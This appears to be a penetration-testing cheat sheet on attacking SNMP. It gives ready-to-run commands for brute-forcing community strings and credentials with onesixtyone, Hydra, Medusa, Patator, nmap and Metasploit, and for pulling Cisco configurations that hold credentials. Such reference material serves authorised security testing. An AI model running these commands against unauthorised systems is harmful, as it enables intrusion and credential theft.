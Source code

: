 ```yaml
---
author(s):
  - Userware
tags:
  - vulnerability-assessment
  - initial-access
  - password-cracking
  - network-ports
  - onesixtyone
  - hydra
  - medusa
  - patator
  - network-mapper
  - metasploit-framework
---
```

# SNMP

## 01 - Brute Force Community Strings

```
$ cat > community.txt << EOF
public
private
manager
EOF

$ onesixtyone -c community.txt -i ip_targets.txt -o output.txt -w 100
```

## 02 - Retrieve Credentials

### 2.1 - Cisco

```
msf > use auxiliary/scanner/snmp/cisco_config_tftp

msf auxiliary(scanner/snmp/cisco_config_tftp) > options

msf auxiliary(scanner/snmp/cisco_config_tftp) > set rhosts <IP>

msf auxiliary(scanner/snmp/cisco_config_tftp) > run
```

## 03 - Brute Force Credentials

### 3.1 - OneSixtyOne

```
$ onesixtyone <IP> -c passwords.lst
```

### 3.2 - Hydra

TODO: Fill this info

`$ hydra -U snmp`

```
$ hydra -P passwords.lst <IP> snmp
```

### 3.3 - Medusa

```
$ medusa -M snmp -m TIMEOUT:2 -m ACCESS:READ -h <IP> -u <username> -P passwords.lst

$ medusa -M snmp -m TIMEOUT:2 -m ACCESS:WRITE -h <IP> -u <username> -P passwords.lst
```

### 3.4 - Patator

```
$ patator snmp_login host=<IP> version=3 user=<username> auth_key=FILE0 0=passwords.lst -x ignore:mesg=unknownUserName

$ patator snmp_login host=<IP> version=3 user=<username> auth_key=FILE0 0=passwords.lst -x ignore:mesg=wrongDigest
```

### 3.5 - Network Mapper

```
$ sudo nmap -sU -p 161,162 -n --script snmp-brute --script-args "snmp-brute.communitiesdb=passwords.lst" <IP
```

### 3.6 - Metasploit

```
msf > use auxiliary/scanner/snmp/snmp_login

msf auxiliary(scanner/snmp/snmp_login) > options

Module options (auxiliary/scanner/snmp/snmp_login): 

   Name              Current Setting                                       Required  Description 
   ----              ---------------                                       --------  ----------- 
   BLANK_PASSWORDS   false                                                 no        Try blank passwords for all users 
   BRUTEFORCE_SPEED  5                                                     yes       How fast to bruteforce, from 0 to 5 
   DB_ALL_CREDS      false                                                 no        Try each user/password couple stored in the current database 
   DB_ALL_PASS       false                                                 no        Add all passwords in the current database to the list 
   DB_ALL_USERS      false                                                 no        Add all users in the current database to the list 
   DB_SKIP_EXISTING  none                                                  no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm) 
   PASSWORD                                                                no        The password to test 
   PASS_FILE         /opt/metasploit/data/wordlists/snmp_default_pass.txt  no        File containing communities, one per line 
   RHOSTS                                                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit 
   RPORT             161                                                   yes       The target port 
   STOP_ON_SUCCESS   false                                                 yes       Stop guessing when a credential works for a host 
   THREADS           1                                                     yes       The number of concurrent threads (max one per host) 
   USER_AS_PASS      false                                                 no        Try the username as the password for all users 
   VERBOSE           true                                                  yes       Whether to print output for all attempts 
   VERSION           1                                                     yes       The SNMP version to scan (Accepted: 1, 2c, all)

msf auxiliary(scanner/snmp/snmp_login) > set rhosts <IP>

msf auxiliary(scanner/snmp/snmp_login) > set pass_file passwords.lst

msf auxiliary(scanner/snmp/snmp_login) > set stop_on_success true

msf auxiliary(scanner/snmp/snmp_login) > run -j

msf auxiliary(scanner/snmp/snmp_login) > creds
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/Remote Services/Telnet|Initial Access: Telnet]]

### Hacking Articles

- [Hacking Articles: Password Cracking SNMP](https://www.hackingarticles.in/password-crackingsnmp/)

### Penetration Testing Tools

- [Penetration Testing Tools: Hydra Protocols](https://en.kali.tools/?p=220)

- [Penetration Testing Tools: Medusa](https://en.kali.tools/?p=200)

### Mike Bond

- [Mike Bond: Cisco SNMP Secrets](https://bond-o.medium.com/cisco-snmp-secrets-e4b731b19737)